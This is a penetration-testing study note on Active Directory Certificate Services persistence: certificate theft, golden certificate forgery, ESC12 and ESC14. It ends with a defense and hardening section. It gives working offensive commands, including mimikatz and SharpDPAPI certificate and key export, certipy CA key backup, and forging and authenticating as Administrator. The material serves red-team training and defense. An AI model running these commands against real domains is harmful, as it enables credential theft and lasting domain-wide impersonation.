

# 05 - AD CS Certificate Theft, Golden Certificate and Persistence

## 1. Executive Summary

Certificates make excellent **persistence** because they're valid for months/years and **survive password resets**. Two angles: **theft** — steal existing user/machine certs + private keys (from the Windows cert store, DPAPI, or files) and reuse them (THEFT1–5); and **forgery** — steal the **CA's private key** and mint a **"golden certificate"** for any principal at will (the PKI equivalent of a golden ticket), independent of templates/ACLs. ESC12 (CA key on a YubiHSM/ADCS host shell) and ESC14 (weak explicit cert mapping via `altSecurityIdentities`) round out the persistence surface.

## 2. Concept Overview

A cert + private key (PFX) authenticates as its subject via PKINIT/Schannel. The **CA's private key** signs all issued certs — possessing it lets you forge a cert for *anyone* that the domain trusts (because the CA is in NTAuth). **`altSecurityIdentities`** (explicit mapping) on a user maps an arbitrary cert to that account — writing it = ESC14 persistence/impersonation.

## 3. Enumeration / Theft

```bash
# THEFT — export user/machine certs + keys (Windows)
certipy ... # via DPAPI when you have the user context
SharpDPAPI.exe certificates /machine            # machine certs
mimikatz: crypto::capi ; crypto::certificates /export
# Linux/remote: pull from disk or via Certipy after compromise
certutil -store My      # list local certs
```

## 4. Exploitation / Persistence Vectors

- **THEFT (reuse existing certs)** — export a privileged user's/machine's cert+key, then `certipy auth -pfx` to get a TGT as them. Survives their password change.
- **Golden Certificate (CA key theft / forgery)** — with admin on the CA server, extract the CA private key and forge certs offline:
  ```bash
  certipy ca -backup -ca <CA> -u admin@domain -hashes :<nt>     # exfil CA cert+key
  certipy forge -ca-pfx ca.pfx -upn administrator@domain -subject "CN=Administrator"
  certipy auth -pfx administrator.pfx -dc-ip <dc>
  ```
  This is durable domain-wide impersonation that **template/ACL fixes don't remediate** — only CA key rotation does.
- **ESC12 — shell access to ADCS / CA key on HSM**: if you get admin/shell on the CA host (or the YubiHSM PIN is recoverable), you reach the CA key → golden certificate.
- **ESC14 — write to `altSecurityIdentities`**: add an explicit mapping on a target user to a cert you hold → authenticate as them long-term (and stealthier than password/hash changes).
- **Account persistence via Shadow Credentials** — see [[06 - Shadow Credentials msDS-KeyCredentialLink Abuse]] (key-based, cert-adjacent persistence).

## 5. Mermaid Attack Flow



## 6. Why It's Strong Persistence
- Certs are valid for the template's lifetime (often 1–2 yrs); revocation is rarely checked for PKINIT; password resets don't invalidate them. Golden certificate persists until the **CA key is rotated** (a major operation).

## 7. Defense & Hardening
1. Protect the CA server like a Tier-0 DC; store CA keys in an HSM with strong access; monitor `certipy ca -backup`-style access and CA host logons.
2. If golden-cert suspected → **rotate the CA key** (reissue CA cert) and revoke; enforce KB5014754 strong mapping to limit ESC14/explicit-map abuse; audit `altSecurityIdentities` writes.
3. Short cert lifetimes; enable CRL/OCSP checking where possible; monitor unusual PKINIT logons + cert exports (SharpDPAPI/mimikatz indicators).

## 8. Chaining Opportunities
- Endgame for ESC1–ESC11 (turn one-shot escalation into durable access).
- Complements krbtgt golden ticket ([[09 - Golden Ticket Attack]]) and DSRM ([[15 - DSRM and Custom SSP Persistence]] in this module).

## 9. Related Notes
- **[[01 - AD CS Overview and Enumeration]]**, **[[04 - AD CS NTLM Relay ESC8 and Coercion]]**, **[[06 - Shadow Credentials msDS-KeyCredentialLink Abuse]]**.
- A-36: **[[20 - Mimikatz — Credential Dumping]]**, **[[09 - Golden Ticket Attack]]**.

## 10. Tools
`certipy` (ca/forge/auth), `mimikatz` (crypto::), `SharpDPAPI`, `ForgeCert`, `Rubeus`.
